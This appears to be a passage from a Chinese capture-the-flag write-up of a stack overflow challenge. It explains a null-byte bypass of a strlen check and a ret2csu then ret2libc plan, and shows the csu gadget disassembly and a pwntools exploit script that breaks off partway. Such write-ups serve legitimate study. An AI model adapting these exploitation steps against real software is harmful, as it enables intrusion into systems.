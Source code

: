 ```plain
size_t vuln()
{
  size_t result; // rax
  char s[16]; // [rsp+0h] [rbp-10h] BYREF

  write(1, "This challenge no backdoor!", 0x1BuLL);
  gets(s);
  result = strlen(s);
  if ( result > 0x10 )
  {
    write(1, "may you can pass it right?", 0x1AuLL);
    exit(1);
  }
  return result;
}
```

非常直白的一道题，只有一个 strlen 对我们的垃圾数据做了检测，只要用\\x00 绕过即可

那么我们的思路就是利用 ret2csu 调用 write 函数来泄露真实地址，进而进行 ret2libc 的过程

csu 函数

```plain
.text:0000000000401310                               loc_401310:                             ; CODE XREF: __libc_csu_init+54↓j
.text:0000000000401310 4C 89 F2                      mov     rdx, r14
.text:0000000000401313 4C 89 EE                      mov     rsi, r13
.text:0000000000401316 44 89 E7                      mov     edi, r12d
.text:0000000000401319 41 FF 14 DF                   call    ds:(__frame_dummy_init_array_entry - 403E10h)[r15+rbx*8]
.text:0000000000401319
.text:000000000040131D 48 83 C3 01                   add     rbx, 1
.text:0000000000401321 48 39 DD                      cmp     rbp, rbx
.text:0000000000401324 75 EA                         jnz     short loc_401310
.text:0000000000401324
.text:0000000000401326
.text:0000000000401326                               loc_401326:                             ; CODE XREF: __libc_csu_init+35↑j
.text:0000000000401326 48 83 C4 08                   add     rsp, 8
.text:000000000040132A 5B                            pop     rbx
.text:000000000040132B 5D                            pop     rbp
.text:000000000040132C 41 5C                         pop     r12
.text:000000000040132E 41 5D                         pop     r13
.text:0000000000401330 41 5E                         pop     r14
.text:0000000000401332 41 5F                         pop     r15
.text:0000000000401334 C3                            retn
```

脚本如下：

```plain
from pwn import *
from LibcSearcher import *

context.log_level = "debug"
#io = remote('pwn.node.game.sycsec.com', 30385)
io = process('./chal')
elf = ELF('./chal')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
#libc = ELF('./libc.so.6')
csu_end_addr=0x40132A
csu_front_addr=0x401310
def csu(rbx, rbp, r12, r15, r14, r13, last):
    # pop rbx,rbp,r12,r13,r14,r15
    # rbx should be 0,
```
